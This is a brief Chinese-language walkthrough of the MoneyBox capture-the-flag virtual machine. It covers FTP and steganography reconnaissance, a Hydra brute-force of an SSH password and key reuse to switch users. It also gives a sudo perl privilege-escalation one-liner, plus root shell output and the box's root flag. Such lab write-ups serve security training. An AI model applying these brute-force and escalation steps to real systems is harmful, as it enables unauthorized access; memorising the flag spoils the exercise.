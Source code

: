 1. 信息收集，靶机ip 192.168.1.12。21，22，80端口开放
2. ftp连接，得到一张图片，steghide info jpg查看，需要密钥
3. 在80web端口继续收集信息，得到密钥
4. 输入密钥得到data.txt文件，用户名renu，提示密码不安全
5. hydra破解得到密码987654321，ssh4登录
6. 查看.bash_history，发现lily用户的公钥和renu用户相同，ssh lily@192.168.1.12切换到lily用户
7. sudo -l，perl有sudo权限，GTFOBins上搜，得到利用 `sudo perl -e 'exec "/bin/sh";'`，提权成功

记录一下：

```
# whoami
root
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 08:00:27:6f:81:95 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.12/24 brd 192.168.1.255 scope global dynamic enp0s3
       valid_lft 601512sec preferred_lft 601512sec
    inet6 fe80::a00:27ff:fe6f:8195/64 scope link 
       valid_lft forever preferred_lft forever
# cd /root
# ls
# ls
# ls -liah
total 28K
260104 drwx------  3 root root 4.0K Feb 26  2021 .
     2 drwxr-xr-x 18 root root 4.0K Feb 25  2021 ..
268183 -rw-------  1 root root 2.1K Feb 26  2021 .bash_history
260466 -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
267797 drwxr-xr-x  3 root root 4.0K Feb 25  2021 .local
260465 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
268186 -rw-r--r--  1 root root  228 Feb 26  2021 .root.txt
# cat .root.txt

Congratulations.......!

You Successfully completed MoneyBox

Finally The Root Flag
    ==> r00t{H4ckth3p14n3t}

I'm Kirthik-KarvendhanT
    It's My First CTF Box
     
instagram : ____kirthik____

See You Back....
```
